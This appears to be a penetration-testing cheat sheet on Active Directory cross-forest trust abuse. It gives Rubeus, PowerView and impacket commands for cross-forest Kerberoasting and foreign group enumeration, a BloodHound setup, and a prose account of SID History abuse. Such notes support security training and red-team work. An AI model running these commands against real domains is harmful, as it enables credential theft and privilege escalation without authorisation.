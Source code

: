 # Cross Forest Trust Abuse

## Cross-Forest Kerberoasting

- Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction.

- In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold.

- Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

- Using windows:

```shell
# Enumerating Accounts for Associated SPNs Using Get-DomainUser
Get-DomainUser -SPN -Domain $TARGET_DOMAIN | select SamAccountName

# Enumerating target domain user
Get-DomainUser -Domain $TARGET_DOMAIN -Identity $USER |select samaccountname,memberof

# Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
Rubeus.exe kerberoast /domain:$TARGET_DOMAIN /user:$USER /nowrap
```

- Using linux:

```shell
# Enumerating Accounts for Associated SPNs
impacket-GetUserSPNs -target-domain $TARGET_DOMAIN $DOMAIN/$USER

# Performing Kerberoasting Attack
impacket-GetUserSPNs.py -request -target-domain $TARGET_DOMAIN $DOMAIN/$USER -outputfile cross-forest-tgs
```

## Admin Password Re-Use & Group Membership Accross Domains

- If we can take over Domain A's Administrator account, and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests.

- Only Domain Local Groups allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. 

- We can enumerate groups with users that do not belong to the domain, also known as foreign group membership. 

```shell
# Using powerview
Get-DomainForeignGroupMember -Domain $DOMAIN
```

- In linux, we can add Domain A in `/etc/resolv.conf` and run Bloodhound, the add Domain B and run Bloodhound again. Then upload both results in Bloodhound GUI and check `Users with Foreign Domain Group Membership`.

```shell
void@kali[/]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain $DOMAIN
nameserver $DC_IP
```

## SID History Abuse

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest.